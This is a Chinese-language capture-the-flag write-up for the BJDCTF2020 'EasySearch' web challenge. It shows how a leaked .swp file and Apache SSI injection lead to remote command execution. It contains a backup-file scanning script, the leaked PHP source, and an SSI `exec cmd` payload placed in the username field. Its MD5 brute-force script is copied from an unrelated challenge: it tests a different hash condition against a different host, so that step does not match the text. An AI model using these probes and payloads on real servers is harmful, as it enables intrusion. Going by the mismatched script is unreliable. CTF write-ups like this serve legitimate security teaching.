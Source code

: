 # 原创
：  [BJDCTF2020]EasySearch

# [BJDCTF2020]EasySearch

#### [BJDCTF2020]EasySearch

## 考点

> 
Apache SSI 远程命令执行漏洞、敏感文件泄露


## 思路

> 
①：当目标服务器开启了SSI与CGI支持,我们就可以上传shtml，利用语法执行命令；<br/> 使用SSI(Server Side Include)的html文件扩展名，SSI（Server Side Include)，通常称为"服务器端嵌入"或者叫"服务器端包含"，是一种类似于ASP的基于服务器的网页制作技术，默认扩展名是 .stm、.shtm 和 .shtml；<br/> ②：扫描一下目录，发现.swp备份文件；<br/> ③：审计一下代码：首先是随机获取文件名的一个函数，最关键的是让password前6个字符的md5加密值等于6d0bc1，然后会在public目录下创建一个shtml文件，再将post传参的username字段写入这个shtml文件中；<br/> ④：利用脚本让password前6个字符的md5值等于6d0bc1；<br/> ⑤：利用得到的password，抓包并登录；<br/> ⑥：返回包中会生成一个后缀为.shtml文件（并将用户名写入文件中），并且含有该文件的路径；<br/> ⑦：利用SSI注入漏洞，我们可以在username变量中传入ssi语句来远程执行系统命令：`&lt;!--#exec cmd="命令"--&gt;`；


## Payload

> 
**扫描敏感信息文件**


```
import requests
url = "http://77f9e06c-19c2-4cb0-bc34-c310120b0745.node3.buuoj.cn/"
bf = ['web.tar', 'web.tar.gz', 'web.zip', 'web.rar', 'website.tar', 'website.tar.gz', 'website.zip', 'website.rar', 'backup.tar', 'backup.tar.gz', 'backup.zip', 'backup.rar', 'back.tar', 'back.tar.gz', 'back.zip', 'back.rar', 'www.tar', 'www.tar.gz', 'www.zip', 'www.rar', 'wwwroot.tar', 'wwwroot.tar.gz', 'wwwroot.zip', 'wwwroot.rar', 'temp.tar', 'temp.tar.gz', 'temp.zip', 'temp.rar', 'index.php.swp', 'index.php.swo', 'index.php.swn', 'index.php.swm', 'index.php~', '.git', '.DS_Store', '.hg', '.bzr', '.index.php.swp', '.index.php.swo', '.index.php.swn', '.index.php.swm']
number = 1
for i in bf:
    url_final = url + i
    r = requests.get(url_final)
    print(r, url_final)
=&gt;
&lt;Response [200]&gt; http://77f9e06c-19c2-4cb0-bc34-c310120b0745.node3.buuoj.cn/index.php.swp

```

> 
**审计.swp泄露信息**


```
&lt;?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&amp;*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "&lt;script&gt;alert('[+] Welcome to manage system')&lt;/script&gt;";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            &lt;h1&gt;Hello,'.$_POST['username'].'&lt;/h1&gt;
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        } else {
            echo "&lt;script&gt;alert('[!] Failed')&lt;/script&gt;";
            
    }else
    {
	***
    }
	***
?&gt;

```

> 
**获取符合MD5截断值的password**


```
MD5截断值爆破：

import hashlib
import random
import requests

def md5(s):
    return hashlib.md5(str(s).encode('utf-8')).hexdigest()

# substr(md5($value),5,4)==0)
def findbest(s):
    for i in range(1000000):
        str = s + random.choice(guess)
        str = str + random.choice(guess)
        str = str + random.choice(guess)
        str = str + random.choice(guess)
        str = str + random.choice(guess)
        str = str + random.choice(guess)
        if (md5(str))[5:9] == "0000":
            print(str)
            return str

# 访问并截取新的关键字
def url_open(keystr, url, session):
    payload = "value=" + keystr
    respon = a.get(url + payload).text
    print(respon[0:2])
    return respon[0:2], len(respon), respon

# 初始连接 字符集
urllink = "http://aa153e3db8114f409fa459050284db8920827b2ffaa34944.game.ichunqiu.com/?"
# guess = ["a", "b", "c", "d", "e", "f", "g", "h", "i", "j", "k", "l", "m", "n", "o", "p", "q", "r", "s", "t", "u", "v", "w", "x", "y", "z"]
guess = "abcdefghijklmnopqrstuvwxyz"
a = requests.session()

# 初始key关键字
keyfirst = 'ea'
# 普通返回长度
normallen = 0

for i in range(1, 100):
    # 寻找满足条件的字符串
    keystr = findbest(keyfirst)

    # 请求获取新的key关键字 记录普通长度 比对flag长度
    keyfirst, length, res = url_open(keystr, urllink, a)
    if i == 1:
        normallen = length
    else:
        if normallen &lt; length:
            print(res)
            break

```

> 
**登录抓包**


> 
访问返回的.shtml页面


> 
**利用SSI注入漏洞，查看当前目录下的文件**


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210517183747656.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210517184114861.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

> 
**当前目录下并没有flag文件，访问上级目录试试**


> 
发现flag文件，cat它


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210517184237196.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210517184244807.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>
